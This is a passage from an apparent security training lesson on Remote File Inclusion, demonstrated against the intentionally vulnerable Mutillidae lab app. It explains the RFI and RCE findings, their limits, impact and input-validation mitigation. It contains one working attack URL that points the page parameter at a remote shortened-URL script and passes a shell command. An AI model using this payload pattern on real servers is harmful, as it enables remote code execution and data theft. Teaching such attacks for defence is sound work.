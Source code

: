   - Run `ls` to show that almost any command-line command can be run: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz&cmd=ls>.
 
#### Demonstration Summary 
 
Being able to successfully change the parameter of the URL to point to a remote script and then subsequently running this script indicates that this web application is vulnerable to **RFI**.

- Also note that the ability to arbitrarily execute command-line code with the remote script means this web application is also vulnerable to **RCE**.

#### Real-World Challenges

**Limitations of the RFI attack:** To conduct this attack successfully, the web server not only needs to run PHP but also needs to enable a configuration setting to allow external URLs. Many web servers that run PHP do not have this configuration enabled.

**Variety of attacks:** The demonstration illustrated using one type of malicious script and two command-line commands.
  
  - Thousands of malicious scripts can be uploaded, and many malicious commands can be run.
  
  - The attack method used the PHP language, but this attack can also be accomplished with other languages, such as ASP. 
              
#### Impact

If a malicious actor can remotely access a malicious script, they can do the following:

- View confidential files or data.

- Modify or delete confidential files or data.

- Modify or delete critical files to cause system disruptions.

#### Mitigation Methods

The best way to protect from RFI is to avoid passing user-submitted input to your web server. This can be accomplished by using input validation.

#### RFI Summary

- **The intended purpose of the original function:** A web application can use parameters in its URL to indicate the back-end server to access a certain resource.

- **The vulnerability and method of exploit:** RFI is a vulnerability in which a malicious user can modify this parameter so that the back-end server accesses a malicious remote resource, such as a script.

- **The unintended consequence of the exploit:** After the malicious remote script has been referenced, a malicious user can run the script to cause unintended consequences.

- **The mitigation of the vulnerability:** Use input validation to avoid a malicious submitted input, such as a modified parameter referencing a remote resource.

- **The potential impact of the exploit:** A malicious actor can view or modify confidential data or system files or potentially cause system outages.
 
Review the differences between LFI and RFI:

